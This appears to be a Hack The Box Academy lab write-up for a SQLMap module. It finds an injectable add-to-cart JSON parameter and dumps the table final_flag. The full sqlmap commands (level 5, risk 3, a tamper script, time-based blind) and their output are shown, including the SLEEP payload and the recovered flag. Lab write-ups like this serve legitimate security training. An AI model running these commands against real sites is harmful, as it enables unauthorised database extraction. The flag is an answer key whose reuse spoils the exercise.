

# Section 10: OS Exploitation

Module: 18. SQLMap Essentials

---

## Questions & Answers

### 1. What's the contents of table final_flag?

Context:
- First we have to search for the attack vectors, I have tried the checkout page, but nothing happened, then moving my focus to the add to cart function, all of them just have a link `#` the only add to cart funciton works is the `Shop > Catalog` then add to cart:

- Save the request and use SQLMap to get the flag, initially I used:
```bash
sqlmap -r req.txt --batch --dump --level 5 --risk 3 --random-agent --tamper=between --technique=t -D production -T final_flag
```
- But the result is:
```
+----+---------+
| id | dontent |
+----+---------+
| 1  | <blank> |
+----+---------+
```
- Maybe it is `content` so I used:
```bash
┌─[eu-academy-2]─[10.10.15.97]─[htb-ac-2162140@htb-hw8teyjkz7-htb-cloud-com]─[~]
└──╼ [★]$ sqlmap -r req.txt --batch --dump --level 5 --risk 3 --random-agent --tamper=between --technique=t -D production -T final_flag -C content
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.9.6#stable}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:39:55 /2026-09-09/

[10:39:55] [INFO] parsing HTTP request from 'req.txt'
[10:39:55] [INFO] loading tamper module 'between'
[10:39:55] [INFO] fetched random HTTP User-Agent header value 'Mozilla/5.0 (X11; U; OpenBSD i386; en-US; rv:1.9.2.8) Gecko/20101230 Firefox/3.6.8' from file '/usr/share/sqlmap/data/txt/user-agents.txt'
JSON data found in POST body. Do you want to process it? [Y/n/q] Y
[10:39:55] [INFO] resuming back-end DBMS 'mysql' 
[10:39:55] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: JSON id ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"id":"1 AND (SELECT 6154 FROM (SELECT(SLEEP(5)))zrsh)"}
---
[10:39:55] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[10:39:55] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[10:39:55] [INFO] fetching entries of column(s) 'content' for table 'final_flag' in database 'production'
[10:39:55] [INFO] fetching number of column(s) 'content' entries for table 'final_flag' in database 'production'
[10:39:55] [INFO] resumed: 1
[10:39:55] [WARNING] (case) time-based comparison requires larger statistical model, please wait.............................. (done)                                                        
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
[10:40:08] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
[10:40:19] [INFO] adjusting time delay to 2 seconds due to good response times
HTB{n07_50_h4rd_r16h7?!}
Database: production
Table: final_flag
[1 entry]
+--------------------------+
| content                  |
+--------------------------+
| HTB{n07_50_h4rd_r16h7?!} |
+--------------------------+

[10:43:49] [INFO] table 'production.final_flag' dumped to CSV file '/home/htb-ac-2162140/.local/share/sqlmap/output/154.57.164.82/dump/production/final_flag.csv'
[10:43:49] [INFO] fetched data logged to text files under '/home/htb-ac-2162140/.local/share/sqlmap/output/154.57.164.82'
[10:43:49] [WARNING] your sqlmap version is outdated

[*] ending @ 10:43:49 /2026-09-09/
```

**Answer:** `HTB{n07_50_h4rd_r16h7?!}`

---

[Back to Module Index](./README.md)
